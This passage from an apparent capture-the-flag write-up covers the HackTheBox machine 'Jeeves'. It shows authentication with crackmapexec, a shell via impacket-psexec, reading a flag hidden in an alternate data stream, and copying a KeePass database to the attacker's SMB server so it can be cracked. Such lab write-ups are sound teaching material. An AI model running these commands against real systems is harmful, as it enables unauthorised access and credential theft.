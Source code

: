 ```bash
poetry run crackmapexec smb 10.10.10.63 -u 'oldboy' -p 'oldboy123'              # (Pwn3d!)
impacket-psexec WORKGROUP/oldboy@10.10.10.63 cmd.exe                           # :):):)
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_28.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_29.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_30.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

If I look for the last flag, I look first of all in the **Administrator** user's Desktop directory, but it is not there, and if I look in different common directories, I can't find anything either. I start to believe that the **root.txt** file is hiding, and **Alternative data streams** concept is being used, so I use the `/r` parameter of the `dir` command, and I can see the file, I use the `more` binary to get its content.

```cmd
type hm.txt

dir /r
more < ht.txt:root.txt
```

<br/>
<img src="{{ site.img_path }}/jeeves_writeup/Jeeves_31.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

There is another way to pwned the box. When I did the system enumeration, I noticed a very interesting file (**CEH.kdbx**), it seems to be the **DB** of the **KeePass** password manager, I transfer it to my machine. I know that to access the contents of this **DB**, I must have a master password. There is a tool, `keepass2john`, that allows me to obtain a hash and then I use `john` to crack and obtain the password. I can now access the database with the `keepassxc` tool. 

> A **[KDBX file](https://fileinfo.com/extension/kdbx){:target="_blank"}** is a password database created by KeePass Password Safe, a free password manager for Windows. It stores an encrypted database of passwords that can be viewed only using a master password set by the user. KDBX files are used to securely store personal login credentials for Windows, email accounts, FTP sites, e-commerce sites, and other purposes.

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

```cmd
copy CEH.kdbx \\10.10.14.6\smbFolder\
```
